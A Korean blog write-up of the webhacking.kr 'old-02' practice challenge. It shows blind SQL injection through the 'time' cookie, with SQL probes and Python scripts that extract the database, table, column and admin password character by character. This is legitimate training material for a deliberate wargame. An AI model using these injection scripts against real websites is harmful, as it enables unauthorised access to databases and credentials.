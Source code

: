 ```yaml
---
title: WEB-Old-02
date: 2021-03-01 11:35:15 +09:00
categories: [Study, Webhacking.kr]
tags: [wargame, web]     # TAG names should always be lowercase
math: true
mermaid: true
---
```


## Old-02
### Source code
```html
<!—
2021-03-01 06:43:16
—>
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -→
```
https://webhacking.kr/challenge/web-02/admin.php 링크로 들어가면 password를 찾아야 한다는 것을 확인할 수 있다.<br>
![](assets/img/_POST/WEB-Old-02/비밀번호.png)<br>
이제 비밀번호를 찾아야 함.<br>
쿠키에 time값이 있다.<br>
쿠기 time값에 1을 입력해보았더니 시간 값이 아래와 같이 변화한 것을 확인할 수 있었다.<br>
![](assets/img/_POST/WEB-Old-02/1입력.png)<br>

데이터 베이스에 pw가 있을것이기 때문에, table개수를 sql문을 이용하여 찾아낸다.
```sql
select count(table_name) from information_schema.tables where table_scheme=database()
```
![](assets/img/_POST/WEB-Old-02/테이블개수2개.png)
테이블의 이름을 찾기 위해 테이블 이름의 길이를 찾는다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_1.png)
첫 번째 테이블의 이름은 13글자이다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_2.png)
두 번째 테이블의 이름은 3글자이다.

```sql
(select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,2,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,3,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름_2_1번째_108.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_2번째_111.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_3번째_103.png)

두 번째 테이블 이름은 **log**이다.<br>
첫 번째 테이블 이름은 너무 길어서 이 방법으로 하면 시간이 너무 오래 걸린다.<br>
따라서 코드를 작성하여 테이블의 이름을 구하고자 한다. 테이블 이름을 구하기에 앞서 먼저 database의 이름을 알아내서 편하게 테이블이름을 찾아보도록한다.<br>

```php
import requests

url = 'https://webhacking.kr/challenge/web-02/'
db = ''
bye = 0

for i in range(1,50):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID; time=0||if(ord(substr((select database()),{},1))={},1,0)".format(i,j)}
        
        res = requests.get(url, cookies=c)
				# 응답 패킷을 res에 저장한다.
        #print("i : {}, j : {}".format(i, j))
        if res.text.find("09:00:01") != -1:
            db += chr(j)
            print(db)
            break
            # 문자열을 찾지 못하면 -1을 반환
            # 참이면, 09:00:01로 1초를 반환하고 false일시 0초를 반환한다.
        if j == 132:
            # 마지막까지 갔다는 것은 db이름 끝까지 구해졌다는 의미이다.
            bye=1
            break
print("database : {}".format(db))
```
![](assets/img/_POST/WEB-Old-02/데이터베이스이름_chall2.png)

database이름은 chall2이다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
first_table=''
bye = 0

for i in range(1,14):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select table_name from information_schema.tables where table_schema='chall2' limit 0,1),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find('09:00:01') != -1 :
            print(chr(j))
            first_table += chr(j)
            break
        if j == 132:
            bye = 1
            break
print("first table name : {}".format(first_table))
```
![](assets/img/_POST/WEB-Old-02/테이블이름_1.png)<br>
테이블 이름은 admin_area_pw이다.
이제, admin_area_pw 테이블에 있는 컬럼의 이름을 찾야야한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
column_name=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select column_name from information_schema.columns where table_name='admin_area_pw'),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            column_name+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("column_name : {}".format(column_name))
```
![](assets/img/_POST/WEB-Old-02/테이블 컬럼이름.png)<br>
컬럼 이름을 찾았으니, 컬럼 개수를 찾아서 내용을 봐야 한다.
```sql
(select count(pw) from admin_area_pw)
```
![](assets/img/_POST/WEB-Old-02/pw컬럼개수.png)<br>
컬럼 개수가 1개 라는 것을 찾았으니 이 컬럼의 내용을 찾아서 pw을 찾아내야 한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
pw=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select pw from admin_area_pw),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            pw+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("pw : {}".format(pw))
```
![](assets/img/_POST/WEB-Old-02/pw.png)<br>
끝!

<aside>
<span style="font-size:20px; font-weight:bold;">⛳ kudos_to_beistlab</span>
</aside>
